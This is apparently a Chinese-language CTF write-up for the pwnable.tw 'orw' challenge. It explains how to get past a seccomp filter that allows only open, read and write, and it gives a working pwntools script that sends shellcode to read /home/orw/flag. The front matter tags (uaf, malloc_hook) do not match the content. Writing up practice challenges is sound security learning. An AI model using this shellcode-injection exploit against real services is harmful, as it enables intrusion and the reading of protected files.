 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- `shellcraft`方法的使用

![image-20240125220416158](../assets/img/old_imgs/image-20240125220416158.png)

> 逻辑很简单,`shellcode`存在于`.bss`段上,写入`shellcode`,执行`shellcode`

![image-20240125220513324](../assets/img/old_imgs/image-20240125220513324.png)

> `orw_seccomp`对系统调用的函数做了限制,只能使用`sys_open,sys_read,sys_write`所以我们利用这三个函数直接读取flag

一种方法是手写汇编,然后通过`asm()`函数转换,难度比较大,另外一种就是我利用的这种,使用`pwntools`的`shellcraft`方法来生成`shellcode`

```python
from pwn import *
context.arch = 'i386'
context.log_level = 'debug'
#io = process('./orw')
io = remote('chall.pwnable.tw',10001)
#io = gdb.debug('./orw')
#shellcode = asm(shellcraft.sh())
shellcode = shellcraft.open('/home/orw/flag')+shellcraft.read('eax','esp',100)+shellcraft.write(1,'esp',100)
shellcode = asm(shellcode)
io.sendlineafter(b'Give my your shellcode:',shellcode)
io.interactive()
```

题目环境和本地环境可能版本有所不同,`shellcode`不一定能在本地运行